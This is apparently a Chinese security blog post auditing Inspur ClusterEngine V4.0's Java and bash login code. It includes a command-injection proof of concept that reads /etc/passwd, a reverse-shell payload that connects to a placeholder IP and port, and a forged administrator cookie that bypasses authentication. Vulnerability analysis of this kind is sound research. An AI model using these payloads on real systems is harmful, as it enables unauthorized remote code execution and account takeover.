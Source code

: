 ```yaml
---
layout: about
category: about
Researchname:  浪潮ClusterEngineV4.0代码审计历程
toc: true
permalink: /about/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/
---
```


## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

先看`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
指向`com.inspur.tsce4.login.Servlet`类，直接去看login：`WEB-INF/classes/com/inspur/tsce4/login/Servlet`类：

```java
public class Servlet extends HttpServlet {
    public Servlet() {
    }
    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        Management manage = new Management(request, response);
        manage.doResponse();
    }
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```
继承了HttpServlet，dopost方法调用Management：


```java
public class Management {
    
    HttpServletRequest request;
    HttpServletResponse response;
    Command command = new Command();

}

```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：

![inspur-code-running-logic.png](https://i.loli.net/2021/11/18/SObV3jkL9DGlWMd.png)


- `command()` -> 对应是运行服务器上的`user_auth.sh`脚本：
    - [点击以查看代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code/userAuth.sh)
    - 来看看代码主要运行逻辑，主要为以下逻辑：
    ![user-auth-logic.png](https://i.loli.net/2021/11/18/LI2u7s48kE6cRfw.png)

运行程序先判断传入参数个数紧 接着对第一个传入参数进行简单的特殊字符过后进行比对，代码如下：

```bash
uname echo $1 | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
if [ a"$uname"b != a"$1"b ]; then
   echo the user $1 format is illegal
   echo error:1
   exit 1;
fi

#简单做了一个过滤实验，但是一对符号如() ''等都无法过滤
➜ echo a-d-c.\/ | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
adc

```
其中进行算法识别的代码只能在redhat系统运行，中文环境下的redhat系统`crypt`换成`加密`即可：

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) crypt.*/\1/p')` 

<a href=""> <i class="fa fa-hand-o-down"></i></a> 

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p')`

```bash
➜ docker run -d hjd48/redhat
➜ docker exec -it c2739bba0d86 /bin/bash

##redhat 6国内换源
bash-4.1# cd /etc/yum.repos.d/ && mkdir tmp && mv *.repo tmp 
bash-4.1# wget -O /etc/yum.repos.d/CentOS-Base.repo https://static.lty.fun/%E5%85%B6%E4%BB%96%E8%B5%84%E6%BA%90/SourcesList/Centos-6-Vault-Aliyun.repo

##encrypt 获取过程
bash-4.1# uname -a
Linux c2739bba0d86 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1# cat /etc/issue
Red Hat Enterprise Linux Server release 6.3 (Santiago)
Kernel \r on an \m

bash-4.1# passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p'
SHA512

##用户认证过程
bash-4.1# bash user_auth.sh root zanghun123
root
arootb
arootb
$6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
encrypt: SHA512
s8LxZk5w
passwd_shadow: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
passwd_t: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
true
```

### 0x01：远程代码执行

用户认证的逻辑基本如此，我们可以看到在web应用层针对用户的认证就是bash代码进行用户哈希值比对的结果，是以这样的参数传入：`bash user_auth.sh $username $passwd`

所以就导致了RCE，原理也十分简单，我们在web层的传入`$username 和 $passwd `两个参数可控，Linux环境下对传入参数使用符号：<code> $ ` () </code> 进行变量替换即可：

```
bash-4.1# cd touch-test/
bash-4.1# ls
bash-4.1# pwd
/tmp/touch-test
bash-4.1# $(touch id)
bash-4.1# ls
id
bash-4.1# $(id)
bash: uid=0(root): command not found
```
所以传入参数进行RCE即可；
![user_auth_rce.png](https://i.loli.net/2021/11/18/gIdstxBcKfaWMA9.png)

poc代码：
```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

```

#### 参考

- [浪潮ClusterEngineV4.0 任意命令执行](https://github.com/hhroot/2021_Hvv/blob/main/%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md
)

### 0x02：Cookie伪造登录

- `com.inspur.tsce4.Management.login() - Management.getCookie() - Management.loginOut()`

```java
public class Management {
private void getCookie() {
        String key = this.request.getParameter("name");
        JSONObject result = new JSONObject();
        Cookie[] cookies = this.request.getCookies();
        Cookie cookie = null;
        Cookie userCookie = null;
        Cookie L_TIMES_cookie = null;
        if (cookies != null) {
            for(int i = 0; i < cookies.length; ++i) {
                if (cookies[i].getName().equals(key)) {
                    cookie = cookies[i];
                } else if (cookies[i].getName().equals("username")) {
                    userCookie = cookies[i];
                } else if (cookies[i].getName().equals("L_TIMES")) {
                    L_TIMES_cookie = cookies[i];
                }
            }
        }

        if (userCookie == null && key.equals("username")) {
            userCookie = cookie;
        }

        if (clearUserList.containsKey(userCookie.getValue()) && userCookie != null && key.equals("vertifyUser")) {
            Long now = (new Date()).getTime();
            Long addTime = ((Date)clearUserList.get(userCookie.getValue())).getTime();
            if (now - addTime > 43200000L) {
                clearUserList.remove(userCookie.getValue());
            } else if (addTime - Long.parseLong(L_TIMES_cookie.getValue()) > 0L) {
                Cookie cookieAuth = new Cookie("vertifyUser", "false");
                cookieAuth.setMaxAge(43200);
                cookieAuth.setPath("/");
                cookieAuth.setHttpOnly(true);
                this.response.addCookie(cookieAuth);
                cookie = null;
            }
        }

        try {
            if (cookie != null) {
                result.put("result", "true");
                result.put("value", cookie.getValue());
            } else {
                result.put("result", "false");
            }

            JsonUtil.respnseJson(this.response, result.toString());
        } catch (JSONException var10) {
            JsonUtil.respnseJson(this.response, this.nullResJson.toString());
        }

    }
}
```

分析得：用户认证Cookie不存在随机性、时效性。所以我们可以直接伪造Cookie登入即可：`lang=cn; username=root; userType=administrator; vertifyUser=true`

![user_auth_RF.png](https://i.loli.net/2021/11/18/Go4jpkAwsNKRWUz.png)

直接使用Cookie插件ModHeader带入Cookie，直接登入：

![inspur_cookie_SF.png](https://i.loli.net/2021/11/18/sUAdtS41ia9cMoL.png)

---

以上。

